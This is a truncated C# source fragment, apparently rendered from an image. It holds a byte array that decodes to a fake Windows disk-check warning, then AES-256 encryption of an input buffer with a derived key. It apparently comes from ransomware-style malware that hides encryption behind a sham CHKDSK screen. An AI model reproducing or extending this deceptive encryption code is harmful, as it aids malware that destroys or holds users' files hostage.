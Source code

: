 ```csharp 
        104, 105, 115, 32, 101, 114, 114, 111, 114, 32,
        99, 97, 110, 32, 98, 101, 32, 99, 97, 117,
        115, 101, 100, 32, 98, 121, 32, 117, 110, 112,
        108, 117, 103, 103, 105, 110, 103, 32, 97, 32,
        114, 101, 109, 111, 118, 97, 98, 108, 101, 32,
        115, 116, 111, 114, 97, 103, 101, 32, 100, 101,
        118, 105, 99, 101, 32, 115, 117, 99, 104, 32,
        97, 115, 32, 97, 110, 32, 32, 32, 32, 101,
        120, 116, 101, 114, 110, 97, 108, 32, 85, 83,
        66, 32, 100, 114, 105, 118, 101, 32, 119, 104,
        105, 108, 101, 32, 116, 104, 101, 32, 100, 101,
        118, 105, 99, 101, 32, 105, 115, 32, 105, 110,
        32, 117, 115, 101, 44, 32, 111, 114, 32, 98,
        121, 32, 102, 97, 117, 108, 116, 121, 32, 104,
        97, 114, 100, 119, 97, 114, 101, 32, 115, 117,
        99, 104, 32, 97, 115, 32, 97, 32, 32, 104,
        97, 114, 100, 32, 100, 114, 105, 118, 101, 32,
        111, 114, 32, 67, 68, 45, 82, 79, 77, 32,
        100, 114, 105, 118, 101, 32, 116, 104, 97, 116,
        32, 105, 115, 32, 102, 97, 105, 108, 105, 110,
        103, 46, 32, 89, 111, 117, 32, 109, 97, 121,
        32, 99, 97, 110, 99, 101, 108, 32, 116, 104,
        101, 32, 100, 114, 105, 118, 101, 32, 99, 104,
        101, 99, 107, 44, 32, 98, 117, 116, 32, 105,
        116, 32, 105, 115, 32, 115, 116, 114, 111, 110,
        103, 108, 121, 32, 114, 101, 99, 111, 109, 109,
        101, 110, 100, 101, 100, 32, 116, 104, 97, 116,
        32, 121, 111, 117, 32, 99, 111, 110, 116, 105,
        110, 117, 101, 46, 32, 10, 13, 32, 10, 13,
        73, 102, 32, 121, 111, 117, 32, 99, 111, 110,
        116, 105, 110, 117, 101, 32, 116, 111, 32, 114,
        101, 99, 101, 105, 118, 101, 32, 116, 104, 105,
        115, 32, 116, 104, 105, 115, 32, 101, 114, 114,
        111, 114, 32, 109, 101, 115, 115, 97, 103, 101,
        44, 32, 119, 97, 105, 116, 32, 102, 111, 114,
        32, 116, 104, 101, 32, 104, 97, 114, 100, 32,
        100, 114, 105, 118, 101, 32, 32, 32, 32, 32,
        99, 104, 101, 99, 107, 32, 116, 111, 32, 102,
        105, 110, 105, 115, 104, 32, 97, 110, 100, 32,
        99, 111, 110, 116, 97, 99, 116, 32, 116, 104,
        101, 32, 104, 97, 114, 100, 119, 97, 114, 101,
        32, 109, 97, 110, 117, 102, 97, 99, 116, 117,
        114, 101, 114, 46, 10, 13, 32, 10, 13, 87,
        105, 110, 100, 111, 119, 115, 32, 119, 105, 108,
        108, 32, 110, 111, 119, 32, 99, 104, 101, 99,
        107, 32, 116, 104, 101, 32, 100, 114
    };
    using (MemoryStream memoryStream = new MemoryStream())
    {
        using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
        {
            Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(GET_CIPHER_KEY, array2, 4096);
            rijndaelManaged.KeySize = 256;
            rijndaelManaged.BlockSize = 128;
            rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
            rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
            rijndaelManaged.Mode = CipherMode.CBC;
            using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
            {
                cryptoStream.Write(INPUT_HANDLER, 0, INPUT_HANDLER.Length);
                cryptoStream.Close();
```